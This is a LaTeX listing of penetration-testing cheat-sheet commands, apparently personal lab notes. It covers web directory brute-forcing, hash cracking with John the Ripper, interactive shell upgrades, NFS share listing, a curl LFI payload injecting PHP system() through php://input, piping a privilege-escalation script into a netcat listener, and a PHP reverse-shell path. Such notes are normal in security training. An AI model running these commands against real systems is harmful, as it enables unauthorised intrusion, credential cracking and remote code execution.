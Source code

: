 \documentclass[a4paper,12pt, twoside,]{report}
\begin{document}
\begin{lstlisting}[caption={commands},label=com]
**@ROBOTS.TXT CHECK !!!!!!!!@**
curl <ip>/robots.txt -s | html2text

*@Web bruteforcing, wordlist need to be changed depending on the services@* 
**@Look into /usr/share/seclists/Discovery/Web_Content/@**
gobuster -u http://***@<ip>@***/ -w /usr/share/seclists/Discovery/Web_Content/common.txt -s '200,204,301,302,307,403,500' -e
                                                                                                                           
*@Rdesktop all the things@*
rdesktop -u ***@user@*** -p ***@password \$ if you want $ etc@*** <IP>

*@John stand alone:@*
john hashdump --wordlist /usr/share/wordlists/rockyou.txt

*@Redirecting output from the error to the default output, usefull if you  don't see a output in a remote executed command@*
 2>&1
***@to test put the command localy with >/dev/null .. if there is a output than this is not your error@***

*@Escaping Shell HELL@*
python -c 'import pty; pty.spawn("/bin/sh")'
echo os.system('/bin/bash')
/bin/sh -i



*@fun snippet - pipe a remote machine's live tcpdump into your local wireshark@*
ssh root@HOST tcpdump -U -s0 -w - 'not port 22' | wireshark -k -i -

*@ Fun with remote shares@*
showmount -e <ip> for nfs shares etc

*@flag for compiling for 64bit on 32bit kali with gcc@*
-m64

*@Don't know why but this might give you command execution if you have lfi@*
Curl -s --data "<?system (<'cmd'>);?>" LFI=php://input%00

*@Reading SSL certs, might leak information@*
openssl s_client -connect {HOSTNAME}:{PORT} -showcerts

*@To slow to type your commands in a nc listener ?@*                                                              
cat privesccore.txt | nc -lvp 443

*@Alternate php shell@*
/usr/share/laudanum/php/php-reverse-shell.php
\end{lstlisting}
\end{document}
